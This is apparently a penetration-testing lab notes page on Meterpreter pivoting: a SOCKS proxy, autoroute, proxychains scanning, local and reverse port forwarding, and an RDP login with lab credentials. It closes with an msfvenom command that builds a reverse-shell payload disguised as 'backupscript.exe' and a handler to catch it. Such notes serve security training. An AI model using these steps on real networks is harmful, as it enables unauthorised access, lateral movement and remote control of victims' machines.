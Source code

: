 # Meterpreter

#### Configuring MSF's SOCKS Proxy:

```shell-session
msf6 > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > options

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  9050             yes       The port to listen on
   VERSION  4a               yes       The SOCKS version to use (Accepted: 4a,
                                        5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server
```

#### Confirm Proxy Server is Running:

```shell-session
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy
```



#### Configure proxychains to route traffic&#x20;

```shell-session
socks4 	127.0.0.1 9050
```

_<mark style="color:red;">**NOTE:**</mark>_ Depending on the version the SOCKS server is running, we may occasionally need to changes socks4 to socks5 in proxychains.conf.

#### Tell our socks\_proxy module to route all the traffic via our Meterpreter Session.

```shell-session
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
```



```
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1
```

#### Testing Proxy & Routing Functionality:

```shell-session
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```

###

### Meterpreter portfwd

Port forwarding can also be accomplished using Meterpreter's "portfwd" module. We enable a listener on our attack host and request Meterpreter to forward all packets received on this port via our Meterpreter session.

_**Portfwd options:**_

```shell-session
meterpreter > help portfwd

Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -h        Help banner.
    -i <opt>  Index of the port forward entry to interact with (see the "list" command).
    -l <opt>  Forward: local port to listen on. Reverse: local port to connect to.
    -L <opt>  Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p <opt>  Forward: remote port to connect to. Reverse: remote port to listen on.
    -r <opt>  Forward: remote host to connect to.
    -R        Indicates a reverse port forward.
```

_**Create Local TCP Relay**_

```shell-session
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```

The above command requests the Meterpreter session to start a listener on local port 3300 and forward all packets to remote port 3389.

_**Connect to RDP on local port 3300**_

```shell-session
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```

_**Confirming w/ Netstat:**_

```shell-session
netstat -antp
tcp        0      0 127.0.0.1:54652         127.0.0.1:3300          ESTABLISHED 4075/xfreerdp 
```

### Reverse Port Forwarding w/ portfwd

Just like local port forwards, Metasploit can perform remote port forwarding. We might want to listen on a port on the compromised host and forward all incoming from the compromised host back to our attack host



**Reverse Port Forwarding Rules**

```shell-session
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
```

**Configuring & Starting multi/handler**

```shell-session
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081 
```

We can now create a reverse shell payload that will send a connection back to our Ubuntu server on `172.16.5.129`:`1234` when executed on our Windows host. Once our Ubuntu server receives this connection, it will forward that to `attack host's ip`:`8081` that we configured.

**Generating the Windows Payload**

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

Finally, if we execute our payload on the Windows host, we should be able to receive a shell from Windows pivoted via the Ubuntu server.
